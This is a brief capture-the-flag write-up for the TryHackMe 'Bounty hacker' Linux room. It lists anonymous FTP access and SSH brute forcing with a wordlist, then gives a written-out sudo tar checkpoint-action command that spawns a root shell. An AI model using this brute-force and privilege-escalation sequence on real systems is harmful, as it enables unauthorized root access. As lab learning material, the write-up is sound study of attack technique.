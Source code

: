 # Bounty hacker 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | medium
Os | linux

**Notes :**




## Gaining Access 😉

- ftp anonymous login
- ssh bruteforce using wordlist from ftp



## Maintaining Access 🥷
- sudo -l
- tar can be run without password
	- /bin/tar


## Important commands 🔥
- `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- privilege escalation with tar


--------------------------------
**By Nibras Muhammed** 🤓🖥️






